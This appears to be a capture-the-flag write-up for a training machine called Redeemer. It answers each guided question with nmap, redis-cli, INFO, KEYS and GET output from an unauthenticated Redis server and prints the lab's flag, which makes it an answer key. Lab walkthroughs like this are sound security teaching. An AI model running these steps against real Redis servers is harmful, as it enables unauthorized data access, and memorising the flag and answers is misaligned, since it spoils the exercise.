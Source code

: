 # Redeemer

## Task 1: Which TCP port is open on the machine?

6379

```bash
┌──(kali㉿kali)-[~]                                                                                    
└─$ nmap -sC -p1001-10000 10.129.224.59                                                                
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-16 05:12 EDT 

Nmap scan report for 10.129.224.59
Host is up (0.25s latency).
Not shown: 8999 closed tcp ports (conn-refused)
PORT     STATE SERVICE
6379/tcp open  redis

Nmap done: 1 IP address (1 host up) scanned in 658.62 seconds
```

## Task 2: Which service is running on the port that is open on the machine?

redis

## Task 3: What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database

answer: In-memory Database

An in-memory database is a database management system that primarily relies on main memory for computer data storage. It is contrasted with database management systems that employ a disk storage mechanism.

## Task 4: Which command-line utility is used to interact with the Redis server? Enter the program name you would enter into the terminal without any arguments

redis-cli

## Task 5: Which flag is used with the Redis command-line utility to specify the hostname?

answer: -h

```bash
┌──(realkali㉿SeaDragnoL)-[~]
└─$ redis-cli -h
redis-cli 7.0.7

Usage: redis-cli [OPTIONS] [cmd [arg [arg ...]]]
  -h <hostname>      Server hostname (default: 127.0.0.1).
  -p <port>          Server port (default: 6379).
...
```

## Task 6: Once connected to a Redis server, which command is used to obtain the information and statistics about the Redis server?

info

## Task 7: What is the version of the Redis server being used on the target machine?

5.0.7

```redis
10.129.224.59:6379> info
# Server
redis_version:5.0.7
redis_git_sha1:00000000
redis_git_dirty:0  
...
```

## Task 8: Which command is used to select the desired database in Redis?

select

## Task 9: How many keys are present inside the database with index 0?

4

```redis
10.129.224.59:6379> info keyspace
# Keyspace
db0:keys=4,expires=0,avg_ttl=0
```

As a dictionary, Redis allows you to set and retrieve pairs of keys and values. Think of a “key” as a unique identifier (string, integer, etc.) and a “value” as whatever data you want to associate with that key.

## Task 10: Which command is used to obtain all the keys in a database?

KEYS *

```redis
10.129.224.59:6379> KEYS *
1) "stor"
2) "temp"
3) "numb"
4) "flag"
```

## Task 11: Submit root flag

03e1d2b376c37ab3f5319922053953eb

```redis
10.129.224.59:6379> GET flag
"03e1d2b376c37ab3f5319922053953eb"
```

## References

[redis cheatsheet](https://lzone.de/cheat-sheet/Redis)
